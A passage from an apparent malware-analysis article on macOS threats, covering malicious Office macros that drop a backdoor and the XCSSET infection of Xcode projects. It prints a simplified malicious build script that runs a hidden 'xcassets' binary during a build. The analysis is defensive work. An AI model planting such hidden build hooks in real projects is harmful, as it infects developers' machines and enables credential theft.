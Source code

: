 Sets the downloaded file to be executable using chmod.

Executes the downloaded file using popen, which in this case, is a persistent macOS backdoor.

**Security Measures:**

To mitigate the risks associated with malicious macros, Microsoft introduced a sandbox environment from Office 2016 onwards on macOS. This sandbox is designed to limit the impact of malicious code executed via macros by restricting its access to the system.

However, there have been instances where security researchers found ways to escape this sandbox, highlighting the continued risk associated with macros.

**Tools for Analysis:**

Tools like olevba can be used to extract and analyze macro code from Office documents. This can be crucial for cybersecurity analysts to understand the behavior of malicious macros and develop countermeasures.

## **Xcode Projects**

XCSSET cleverly disguises itself within Xcode projects. When an unsuspecting developer downloads and builds an XCSSET-infested Xcode project, the malicious script tucked within springs into action, infecting the developer’s Mac and laying the groundwork for data theft.

Here’s a simplified breakdown of the malicious build script found within an infected Xcode project’s project.pbxproj file:

```
# Navigating to the hidden directory

cd "${PROJECT_FILE_PATH}/xcuserdata/.xcassets/"

# Preparing the xcassets binary for execution

xattr -c "xcassets"

chmod +x "xcassets"

# Executing the binary

./xcassets "${PROJECT_FILE_PATH}" true
```

**Anatomy of the Attack**

The script unveils a well-orchestrated malicious ballet:

Navigation to Hidden Lair: The script navigates to a hidden directory /.xcassets/ nestled within the project’s directory structure.

Preparation for Execution: It then prepares the malicious xcassets binary for execution by stripping any extended attributes and marking it as executable.

Execution of Malice: Finally, the script executes the xcassets binary, passing along crucial arguments including the path to the project.

This malicious endeavor culminates in the core XCSSET malware being unleashed onto the system, paving the way for an extensive data heist encompassing credentials and other vital information.
